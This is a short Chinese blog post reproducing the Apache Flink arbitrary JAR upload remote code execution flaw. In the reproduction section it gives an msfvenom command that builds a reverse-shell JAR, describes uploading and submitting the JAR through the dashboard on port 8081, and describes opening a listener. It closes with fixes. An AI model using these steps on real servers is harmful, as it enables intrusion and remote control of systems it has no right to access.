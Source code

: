 ```yaml
---
layout:     post
title:      Apache Flink任意Jar包上传导致远程代码执行
subtitle:   Apache Flink漏洞复现
date:       2020-08-21
author:     heria
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
---
```




### Apache Flink任意Jar包上传导致远程代码执行

![image-20210326151438763](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210326151438763.png)

### 阿里云主机异常告警特征

![image-20200821101149138](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821101149138.png)

### 复现

**步骤一**

msfvenom -p java/shell_reverse_tcp 生成反弹shell jar包  或者msfvenom -p java/meterpreter/reverse_tcp配合msf

![image-20200821095427504](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095427504.png)



**步骤二**

flink 默认8081/8082端口  add new 上传文件 之后submit

![image-20200821095550530](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095550530.png)

**步骤三**

公网机器开启监听 

![image-20210326151523401](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210326151523401.png)

成功复现





### 批量检测脚本

https://github.com/AleWong/Apache-Flink-Web-Dashboard-RCE





### 修复

#### 漏洞影响版本范围

<= 1.9.1

版本升级

https://flink.apache.org/downloads.html

#### 端口访问限制

8081端口访问限制（8082） 



### 参考链接：

https://blog.csdn.net/sun1318578251/article/details/103056168


